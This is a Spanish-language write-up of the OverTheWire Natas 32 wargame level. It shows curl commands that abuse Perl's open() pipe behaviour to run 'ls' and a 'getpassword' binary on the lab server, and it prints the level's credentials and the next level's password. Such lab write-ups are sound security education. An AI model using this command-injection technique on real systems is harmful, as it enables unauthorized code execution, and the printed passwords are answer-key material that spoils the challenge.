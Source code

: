 # Natas 32

#### URL: http://natas32.natas.labs.overthewire.org/
#### Credenciales: natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B

Aunque en el [nivel anterior](https://github.com/Calana2/Writeups_es/blob/main/OverTheWire-Wargames/Natas/natas31.md) explotamos una vulnerabilidad de AFR, no mencionamos que esta era escalable a RCE

La funcion open() abre un descriptor de archivo a una ruta de archivo `a menos que un caracter "|" sea agregado al final de la cadena`. En ese caso open() `ejecutará el archivo`

![2025-03-21-153857_1366x768_scrot](https://github.com/user-attachments/assets/00f08b5f-5569-4959-bc4c-8bb481599e84)

```
curl -u natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B -F file=ARGV -F file=@file.csv -F submit=Upload "http://natas32.natas.labs.overthewire.org/index.pl?ls%20.%20|"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<!-- Bootstrap -->
<link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas32", "pass": "<censored>" };</script>
<script src="sorttable.js"></script>
</head>
<script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>

<!--
    morla/10111
    shouts to Netanel Rubin
-->

<style>
#content {
    width: 900px;
}
.btn-file {
    position: relative;
    overflow: hidden;
}
.btn-file input[type=file] {
    position: absolute;
    top: 0;
    right: 0;
    min-width: 100%;
    min-height: 100%;
    font-size: 100px;
    text-align: right;
    filter: alpha(opacity=0);
    opacity: 0;
    outline: none;
    background: white;
    cursor: inherit;
    display: block;
}

</style>


<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>.:
</th></tr><tr><td>bootstrap-3.3.6-dist
</td></tr><tr><td>getpassword
</td></tr><tr><td>index-source.html
</td></tr><tr><td>index.pl
</td></tr><tr><td>jquery-1.12.3.min.js
</td></tr><tr><td>sorttable.js
</td></tr><tr><td>tmp
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Encontramos un archivo 'getpassword', lo ejecutamos y conseguimos las credenciales:
```
curl -u natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B -F file=ARGV -F file=@file.csv -F submit=Upload "http://natas32.natas.labs.overthewire.org/index.pl?./getpassword%20|"
...
<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ
</th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

`natas33:2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ`



